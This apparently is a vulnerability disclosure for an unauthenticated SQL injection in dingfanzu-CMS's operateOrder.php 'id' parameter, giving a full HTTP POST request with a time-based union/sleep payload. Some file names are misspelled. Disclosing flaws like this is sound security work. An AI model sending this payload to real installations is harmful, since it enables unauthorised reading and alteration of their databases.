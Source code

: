 
# dingfanzu-CMS operateOrder.php id SQL-inject.md

**Exploit Title: dingfanzu-CMS operateOrder.php id SQL-inject.md**

**Exploit Author: https://github.com/gh3-dk/vul/blob/main/sql%20injection/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

SQL injection refers to attackers tampering with primitive sentence logic by inputting malicious SQL code. Dingfanzu - CMS's operteOrder.chp does not strictly filter user input and concatenates it into SQL statements. Attackers can construct special inputs, alter the execution results of statements, and achieve illegal data access, modification, and even control of databases..

The path to the vulnerability：/admin/ajax/operateOrder.php
The param to the vulnerability：type=cancel&id=
    Payload used:

```
POST /admin/ajax/operateOrder.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://127.0.0.1/dingfanzu-master/dingfanzu-master/admin/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

type=cancel&id=1+union+select+sleep(3)--+

```


## Proof of Concept

The parameter 'id' received from the user input is not strictly validated in the operatiteOrder.chp file, and the file can be accessed without authorization for SQL injection attacks.


![dingfangzu1.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu1.png)

order.inc.php file.
![dingfangzu2.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu2.png)


Practical verification

![dingfangzu3.png.png](https://github.com/gh3-dk/vul/blob/main/images/dingfangzu3.png.png)
